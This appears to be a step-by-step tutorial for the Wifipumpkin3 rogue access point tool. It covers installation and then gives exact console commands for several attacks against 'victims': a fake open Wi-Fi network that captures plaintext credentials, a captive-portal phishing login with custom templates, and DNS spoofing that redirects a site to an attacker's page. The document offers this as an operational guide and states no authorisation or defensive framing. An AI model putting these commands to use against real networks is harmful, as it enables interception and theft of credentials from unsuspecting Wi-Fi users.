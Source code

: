 # Wifipumpkin3

## Features

- Rogue access point attack

- Man-in-the-middle attack

- Module for deauthentication attack

- Module for extra-captiveflask templates

- Rogue DNS Server

- Captive portal attack (captiveflask)

- Intercept, inspect, modify and replay web traffic

- WiFi networks scanning

- DNS monitoring service

- Credentials harvesting

- Transparent Proxies

- LLMNR, NBT-NS, and MDNS poisoner

## Installation

#### 1) Install dependencies

    sudo apt install libssl-dev libffi-dev build-essential

#### 2) Download the tool and install the rest of the dependencies

    git clone https://github.com/P0cL4bs/wifipumpkin3.git
    cd wifipumpkin3
    sudo apt install python3-pyqt5

Then,

    python3 setup.py install

#### 3) Create a fake access point with the name of "Free wifi" to do Man-in-the-Middle attacks

Run the tool

    sudo wifipumpkin3

Set up your tool

    set interface wlan0
    set ssid Free Wifi
    set proxy noproxy
    ignore pydns_server
    start

Then, when the victim connects to our fake AP, he will receive a malicious IP from our DHCP server.

When a victim connects to an HTTP website that does not have SSL/TLS encryption in transit and inserts data in user input textbox like "username, password, email" for example, Wifipumpkin captures traffic and the credentials entered by the victim in plain text.

#### 4) Captive portal attack

Similar to the first attack, but this time it uses a secure page where the victim must enter credentials (username and password) for the Wi-Fi. Can be used when we are doing an evil twin attack.

Run your tool

    sudo wifipumpkin3

Set up your tool

    set interface wlan0
    set ssid Hotspot
    set proxy captiveflask true
    ignore pydns_server
    start

When the victim connects to our "Hotspot" wifi, he will be redirected to a login page to enter credentials before he can use the internet.

Credentials have been captured by Wifipumpkin and displayed in a table form.

#### 5) Custom Captiveflask

We can use another captive flask than the generic one from the previous attack. It allows us to generate custom templates for a captive flask to phish our targets.

    show
    use misc.extra_captiveflask
    help
    download

After downloading it, list the custom templates, then use anyone you wish in the list

    list
    install example

Then,

    sudo python3 setup.py install

Now make the attack, but this time, use our customized captive flask we have downloaded.

    set interface wlan0
    set ssid Open Wifi
    set proxy captiveflask
    set captiveflask.example true
    ignore pydns_server
    start

Now, the victim will see a login page according to the template we chose to install.

#### 6) DNS Spoofing

Just as we can use the customized flask, which is in the tool, we could also use the HTML document, which we have created, and would like to use it for the attack on a user. Below, we can see that we are in the
“www” “HTML” directory here is where any HTML file that we need to use for a website is located, we
would create an HTML file which displays “lorem ipsum dolor sit amet consectetur adipiscing elit” below, we would see the
walkthrough on how to do this.

    cd /var/www/html
    echo "lorem ipsum dolor sit amet consectetur adipiscing elit" > index.html
    service apache2 start
    ifconfig eth0

Now that we have created the HTML file and know the IP address for our Ethernet cable, let's go into
wifipumpkin and try to add this new HTML file to our command, and see how we can spoof the DNS server
so that when we visit the site, the DNS server will spoof it to the page, which we want it to be

    set interface wlan0
    set ssid HA
    set proxy noproxy
    ignore pydns_server
    show
    use spoof.dns_spoof
    set domains vulnweb.com
    set redirectTo 192.168.1.2
    start

Now, when the victim connects to the SSID "HA", and visits the webpage "vulnweb.com", he would be redirected by the DNS server to the page which we created on our attacking
machine.
